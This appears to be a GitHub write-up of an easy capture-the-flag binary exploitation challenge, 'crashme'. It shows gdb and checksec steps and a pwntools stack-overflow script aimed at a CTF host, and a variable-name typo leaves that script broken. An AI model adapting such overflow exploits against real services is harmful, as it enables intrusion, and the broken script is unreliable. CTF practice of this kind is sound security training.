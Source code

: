 # Exploitation Challenges `Pwn`
## First Chall `Very Easy`
<img src="https://github.com/q5fj/Pwn/assets/88992167/1a26af55-38e2-4713-aca0-0cd186e952bb">

#### Check The Code `crashme.c`
<img src="https://github.com/q5fj/Pwn/assets/88992167/a6ba6a46-d7f9-4c70-9b83-f81922fc71b5">

#### Check The Program `file crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/1f235cef-32cc-4ee3-b9ba-332e334f1fe6">

#### Check teh security of the Program `checksec crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/83acfc89-a331-4fdb-960e-1f8598ae6eae">

#### Run The Program `./crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/53813e8d-caaa-430d-8e22-7ab453aab13c">

#### Verify The Program Using `gdb ./crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/b1114234-bbaa-4449-acaf-34ede9bb8180">

#### Using `disassemble main`
<img src="https://github.com/q5fj/Pwn/assets/88992167/aa7e2a29-c29e-4b3f-b22a-bf7c64a7202f">

#### Create Exploitation Program `PwnTools`
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./crashme')
io = elf.process()

context.log_level = 'debug'

io = remote('0.cloud.chals.io', 17289)

offset = ? 
```
#### We Need Offset `Using gdb`
```
gef➤  pattern create 100
gef➤  r
gef➤  pattern offset faaaaaaagaaaaaaahaaaaaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/670dcd3d-2558-4d74-9b28-fdb2cc430669">
<img src="https://github.com/q5fj/Pwn/assets/88992167/34e6eede-609e-48f3-a13f-863309e2a634">

#### We Complete The Exploitation Program
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./crashme')
io = elf.process()

context.log_level = 'debug'

io = remote('0.cloud.chals.io', 17289)

offset = 40

paylaod = b''
paylaod += b'A' * offset
payload += p64(0x400676) #Address Function main

io.sendlineafter(b':',paylaod)
io.sendline(b'flag')
io.interactive()
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/3abc20e4-1997-4a10-a2fb-03a87bcde462">








